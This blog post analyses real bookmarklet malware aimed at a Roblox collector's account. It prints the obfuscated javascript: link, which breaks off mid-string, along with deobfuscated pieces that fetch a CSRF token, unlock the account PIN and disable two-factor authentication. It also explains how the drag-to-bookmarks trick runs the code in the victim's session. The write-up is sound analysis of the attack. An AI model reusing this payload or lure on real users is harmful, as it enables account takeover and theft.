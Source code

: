 ```yaml
---
title: Bookmarklet XSS Attacks - Real Roblox Malware
date: 2024-06-09 05:08:01 +0800
categories: [Whitebox]
tags: [javascript,xss,real]     # TAG names should always be lowercase
pin: true
---
```


## The Target

Some of us are lucky when it comes to investing. My friend (known as Gary from here on out) is one of these, but not in a way you might expect. Gary started playing Roblox when he was young just as I and many other kids did.
However, Gary took a liking to collecting hats and clothing on the website. He spent whatever birthday money and allowances he got on viking hats and fire-themed balaclavas for his avatar.

This seemed like a bit of a waste of money - at the time. Fast forward to nearly 10 years later, and now his vast collection is worth several thousand REAL dollars. Unfortunately, this amount of wealth comes with 
a large target on his back. Hackers are constantly attempting to get access to his items, through scam websites and malicious emails.

## The Attack

Recently, Gary got a message asking if someone could make some fanart of his unique avatar. He said sure. The artist responded they would start soon, but need him to send over a special texture map of his avatar. 
As far as I am told, this isnt completely out of the ordinary. The texture map can help a lot with correctly modeling avatars in animations, for example.

But then the artist sent Gary a link to a website - which I will not include here for obvious reasons - containing a 'bookmarkable button' to quickly generate texture maps for his avatar. How convenient and not suspicious 
at all!

Gary immediately asked me to take a look and see if the website was malicious or not. So I did. And boy did I find some stuff.

The website was relatively barebones except for a giant link-button and 'walkthrough' video explaining how to properly use it. The first thing I did was inspect the website's source. I couldn't help but immediately
notice a hilariously suspicious anchor element:

```javascript
<a href="javascript:const%20_0x4cc798%3D_0x2001%3B%28function%28_0x5d8d84%2C_0x388ac2%29%7Bconst%20_0x108b54%3D_0x2001%2C_0x39dcc9%3D_0x5d8d84%28%29%3Bwhile%28%21%21%5B%5D%29%7Btry%7Bconst%20_0x1b78d8%3D-parseInt%28_0x108b54%280x185%29%29%2F0x1%2A%28parseInt%28_0x108b54%280xc3%29%29%2F0x2%29%2B-parseInt%28_0x108b54%280x183%29%29%2F0x3%2A%28parseInt%28_0x108b54%280x152%29%29%2F0x4%29%2B-parseInt%28_0x108b54%280x17c%29%29%2F0x5%2B-parseInt%28_0x108b54%280x162%29%29%2F0x6%2A%28-parseInt%28_0x108b54%280xc2%29%29%2F0x7%29%2BparseInt%28_0x108b54%280x144%29%29%2F0x8%2B-parseInt%28_0x108b54%280x111%29%29%2F0x9%2BparseInt%28_0x108b54%280x142%29%29%2F0xa%2A%28parseInt%28_0x108b54%280xca%29%29%2F0xb%29%3Bif%28_0x1b78d8%3D%3D%3D_0x388ac2%29break%3Belse%20_0x39dcc9%5B%27push%27%5D%28_0x39dcc9%5B%27shift%27%5D%28%29%29%3B%7Dcatch%28_0x5c0eac%29%7B_0x39dcc9%5B%27push%27%5D%28_0x39dcc9%5B%27shift%27%5D%28%29%29%3B%7D%7D%7D%28_0x219d%2C0x1dfe2%29%2Cwindow%5B_0x4cc798%280xe9%29%5D%3Ddocument%5B_0x4cc798%280x110%29%5D%28_0x4cc798%280x169%29%29%5B0x0%5D%5B%27getAttribute%27%5D%28_0x4cc798%280x11a%29%29%2Cwindow%5B_0x4cc798%280xbd%29%5D%3D%27%27%29%3Bfunction%20_0x2001%28_0x34f505%2C_0x56e9bf%29%7Bconst%20_0x219db2%3D_0x219d%28%29%3Breturn%20_0x2001%3Dfunction%28_0x20010f%2C_0x526ece%29%7B_0x20010f%3D_0x20010f-0xa3%3Blet%20_0x3a8f3e%3D_0x219db2%5B_0x20010f%5D%3Breturn%20_0x3a8f3e%3B%7D%2C_0x2001%28_0x34f505%2C_0x56e9bf%29%3B%7Dconst%20acceptableHeaders%3D%7B%27accept%27%3A%27application%2Fjson%2C%5Cx20text%2Fplain%2C%5Cx20%2A%2F%2A%27%2C%27accept-language%27%3A_0x4cc798%280x13e%29%2C%27sec-ch-ua%27%3A_0x4cc798%280x116%29%2C%27sec-ch-ua-mobile%27%3A%27%3F0%27%2C%27sec-ch-ua-platform%27%3A_0x4cc798%280xa6%29%2C%27sec-fetch-dest%27%3A_0x4cc798%280x14c%29%2C%27sec-fetch-mode%27%3A_0x4cc798%280xa4%29%2C%27sec-fetch-site%27%3A_0x4cc798%280xec%29%2C%27sec-gpc%27%3A%271%27%7D%2CyourSitesURL%3D_0x4cc798%280xae%29%2CgetCsrfToken%3Dasync%28%29%3D%3E%7Bconst%20_0x3d5a96%3D_0x4cc798%2C_0x313a18%3Dawait%20fetch%28%27https%3A%2F%2Fapis.roblox.com%2Fuser-settings-api%2Fv1%2Fuser-settings%3FwhoCanJoinMeInExperiences%3DFollowers%27%2C%7B%27credentials%27%3A%27include%27%2C%27headers%27%3AacceptableHeaders%2C%27method%27%3A%27POST%27%2C%27mode%27%3A_0x3d5a96%280xa4%29%7D%29%5B_0x3d5a96%280x12b%29%5D%28_0x498197%3D%3E%7B%7D%29%3Bif%28%21_0x313a18%29return%20await%20getCsrfToken%28%29%3Blet%20_0x11d173%3D_0x313a18%5B_0x3d5a96%280xf8%29%5D%5B_0x3d5a96%280x129%29%5D%28_0x3d5a96%280xd4%29%29%3Bif%28%21_0x11d173%29return%20await%20getCsrfToken%28%29%3Breturn%20_0x11d173%3B%7D%2CunlockAccountByPin%3Dasync%20_0x181c0c%3D%3E%7Bconst%20_0xe09cf9%3D_0x4cc798%3Bfetch%28%27https%3A%2F%2Fauth.roblox.com%2Fv1%2Faccount%2Fpin%2Funlock%3Fpin%3D%27%2B_0x181c0c%2C%7B%27headers%27%3A%7B%27accept%27%3A_0xe09cf9%280xa9%29%2C%27accept-language%27%3A_0xe09cf9%280x13e%29%2C%27content-type%27%3A%27application%2Fjson%3Bcharset%3DUTF-8%27%2C%27sec-ch-ua%27%3A_0xe09cf9%280x116%29%2C%27sec-ch-ua-mobile%27%3A%27%3F0%27%2C%27sec-ch-ua-platform%27%3A_0xe09cf9%280xa6%29%2C%27sec-fetch-dest%27%3A_0xe09cf9%280x14c%29%2C%27sec-fetch-mode%27%3A_0xe09cf9%280xa4%29%2C%27sec-fetch-site%27%3A_0xe09cf9%280xec%29%2C%27sec-gpc%27%3A%271%27%2C%27x-csrf-token%27%3Aawait%20getCsrfToken%28%29%7D%2C%27referrer%27%3A_0xe09cf9%280xa3%29%2C%27referrerPolicy%27%3A_0xe09cf9%280xc0%29%2C%27body%27%3A_0xe09cf9%280x160%29%2B_0x181c0c%2B%27%5Cx22%7D%27%2C%27method%27%3A_0xe09cf9%280x137%29%2C%27mode%27%3A_0xe09cf9%280xa4%29%2C%27credentials%27%3A_0xe09cf9%280x12f%29%7D%29%5B%27then%27%5D%28_0xbcaa97%3D%3E_0xbcaa97%5B_0xe09cf9%280x178%29%5D%28%29%29%5B_0xe09cf9%280x108%29%5D%28async%20_0x1cbef2%3D%3E%7Bconst%20_0x25f449%3D_0xe09cf9%3Bif%28_0x1cbef2%5B%27includes%27%5D%28_0x25f449%280x143%29%29%29document%5B_0x25f449%280x151%29%5D%28_0x25f449%280x156%29%29%5B_0x25f449%280xad%29%5D%28_0x25f449%280x172%29%2C_0x181c0c%29%2CsetDescription%28%7B%27pin%27%3A_0x181c0c%7D%29%2CcontinueToTwoStep%28%29%2Cconsole%5B_0x25f449%280x14e%29%5D%28_0x25f449%280xcf%29%29%2Cdocument%5B_0x25f449%280xc6%29%5D%28%27PIN%27%29%5B_0x25f449%280xc1%29%5D%5B_0x25f449%280x13f%29%5D%3D_0x25f449%280x139%29%3Belse%20_0x1cbef2%5B_0x25f449%280xb3%29%5D%28_0x25f449%280xff%29%29%3Fdocument%5B_0x25f449%280xc6%29%5D%28_0x25f449%280x102%29%29%5B_0x25f449%280x125%29%5D%3D_0x25f449%280x164%29%3Adocument%5B_0x25f449%280xc6%29%5D%28_0x25f449%280x102%29%29%5B%27innerHTML%27%5D%3D_0x25f449%280x146%29%3B%7D%29%3B%7D%2CcreateOTPsession%3Dasync%28%29%3D%3E%7Bconst%20_0x1f209f%3D_0x4cc798%2C_0x1c30af%3Dawait%20fetch%28_0x1f209f%280xc5%29%2C%7B%27credentials%27%3A_0x1f209f%280x12f%29%2C%27headers%27%3A%7B%27Accept%27%3A_0x1f209f%280xa9%29%2C%27Accept-Language%27%3A%27en-US%2Cen%3Bq%3D0.5%27%2C%27Content-Type%27%3A_0x1f209f%280x136%29%2C%27x-csrf-token%27%3Aawait%20getCsrfToken%28%29%2C%27Sec-GPC%27%3A%271%27%2C%27Sec-Fetch-Dest%27%3A_0x1f209f%280x14c%29%2C%27Sec-Fetch-Mode%27%3A_0x1f209f%280xa4%29%2C%27Sec-Fetch-Site%27%3A_0x1f209f%280xec%29%7D%2C%27referrer%27%3A%27https%3A%2F%2Fwww.roblox.com%2F%27%2C%27body%27%3A_0x1f20
```

Clearly this was some obfuscated JavaScript. Even taking a look at some of the strings was damning - `creteOTPsession`, `getCsrfToken`, etc. I immediately told Gary to stop talking to this guy and block him.

But I decided to go a bit deeper and started deobfuscating the JavaScript. Hilariously, the author actually just used [this](https://deobfuscate.io/) link, so the process was fairly trivial. However, local variable
names were obviously still random hex strings and unable to be recovered.

## The Payload

As expected, the payload JavaScript was a large amount of fetch requests to endpoints related to account settings and security:

```javascript
const disable2fa = async (_0x28bbe9, _0x197e35, _0x4fe56d) => {
  _0x197e35 = _0x197e35 || 0x0;
  _0x197e35++;
  if (_0x197e35 >= 0x3) {
    return;
  }
  let _0x42560a = await fetch("https://twostepverification.roblox.com/v1/users/" + _0x28bbe9 + "/configuration/authenticator/disable", {
    'headers': Object.assign(acceptableHeaders, {
      'x-csrf-token': window.csrf
    }),
    'referrer': "https://www.roblox.com/",
    'referrerPolicy': "strict-origin-when-cross-origin",
    'method': "POST",
    'mode': 'cors',
    'credentials': 'include'
  })['catch'](() => {});
  if (_0x42560a.status === 0x193) {
    _0x4fe56d = _0x42560a.headers.get("x-csrf-token");
    await disable2fa(_0x28bbe9, _0x197e35, _0x4fe56d);
  } else {
    return true;
  }
```

Perhaps the most interesting part of the entire payload was the very first fetch request made. Before accessing any user settings or inventory listings, the script makes a call to lookup details for a user with
ID 6055914656 - 'badmilky22':

```javascript
fetch("https://users.roblox.com/v1/users/6055914656", {
  'headers': {
    'accept': "application/json, text/plain, */*",
    'accept-language': "en-GB,en-US;q=0.9,en;q=0.8",
    'sec-ch-ua': "\"Chromium\";v=\"118\", \"Brave\";v=\"118\", \"Not=A?Brand\";v=\"99\"",
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-platform': "\"Windows\"",
    'sec-fetch-dest': 'empty',
    'sec-fetch-mode': "cors",
    'sec-fetch-site': "same-site",
    'sec-gpc': '1'
  },
  'referrer': "https://www.roblox.com/",
  'referrerPolicy': "strict-origin-when-cross-origin",
  'method': 'GET',
  'mode': "cors",
  'credentials': 'include'
```

After the call, the payload then passes the user's bio/description into the `parseBinary` function:

```javascript
const evil_email = parseBinary(_0x5dd11c.description);
```

That's odd. Why would it do that? Well, I decided to look at badmilky22's account description. It was just a bunch of binary:

![badmilky22](/assets/img/badmilky22.png)

Decoding this to ASCII gives the hacker's email address `lr46opcs@fastsearcher.com`! Later on in the payload, this email address is used when victim account details are hijacked.

Afterwards, the payload does some pretty standard hacker stuff like resetting passwords and disabling 2FA. 

## But... what about CORS?

I couldn't understand how the payload managed to get around CORS. For those of you unaware, Cross Origin Resource Sharing (CORS) is a security setting for HTTP that can easily stop CSRF attacks like this. The
gist is that JavaScript from another 'Origin' (i.e. not roblox.com) should NOT be able to make credentialed requests or access HTTP responses from credentialed requests on behalf of a user. In this case, the
malicious 'link' (`<a/>` tag) element embedded with obfuscated JavaScript should NOT be able to successfully make these malicious requests on behalf of a user.

At first I was convinved that this guy just didn't know what he was doing, but then I realized that the malicious domain site had been registered only 5 days prior, and that clearly some thought was put into this
payload. So I decided to watch the 'walkthrough' video. The video instantly clarified everything for me - the bookmark the site wanted you to make was NOT to the malicious domain, but to literally drag and drop
the link-button onto your bookmarks bar.

This creates what modern browsers call Bookmarklets - or 'bookmarks' that are actually just JavaScript code. This is incredibly valuable in a cross-site scripting attack as it can easily bypass any CORS restrictions.
As far as I am aware, this isn't a very widely used or discussed attack vector. The implications of 'stored-xss' on any origin site are massive. 

## Conclusion

It seems that this is simply an accepted facet of modern browsers. I personally have never heard of someone using bookmarklets for a legitimate purpose, and the attack implications are critical. I would seriously 
recommend Mozilla and Chrome consider disabling telemetry for JavaScript-enabled bookmarklets, or including a custom origin/header for bookmarklet requests.


